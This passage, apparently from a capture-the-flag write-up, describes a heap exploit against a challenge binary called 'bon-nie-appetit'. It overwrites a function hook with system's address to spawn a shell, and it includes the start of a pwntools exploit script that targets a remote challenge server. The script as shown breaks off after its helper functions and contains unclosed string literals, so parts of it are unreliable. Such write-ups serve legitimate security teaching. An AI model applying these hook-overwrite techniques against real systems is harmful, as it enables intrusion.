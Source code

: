 
![](https://raw.githubusercontent.com/dplastico/dplastico.github.io/main/_posts/img/2022-05-25-15-35-25.png)

Now the only thing that's left is to replace the 0xdeadbeef value with the system address and then, as we prepared before, free the *guard chunk* that holds the "/bin/sh\0" value that will be used as an argument to the hooked function, in this case, system.

Below is the final exploit code
```python
#!/usr/bin/python3
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./bon-nie-appetit')
libc = elf.libc
context.terminal = ['tmux', 'splitw', '-hp', '70']

index = 0


def start():
    if args.GDB:
        return gdb.debug('./bon-nie-appetite, gdbscript=gs)
    if args.REMOTE:
        return remote('178.62.43.214',31141)
    else:
        return process('./bon-nie-appetite)


def make(size, data):
    global index
    r.sendline(b"1")
    r.sendlineafter(b"[*] For how many:", f"{size}")
    r.sendafter(b"What would you like to order:", data)
    r.recvuntil(b">")
    index += 1
    return index-1

def show(index):
    r.sendline(b"2")
    r.sendlineafter(b" Number of order:", str(index))
    r.recvuntil(b"=> ")
    d = u64(r.recvline().strip().ljust(8,b"\x00"))
    r.recvuntil(b">")
    return d

```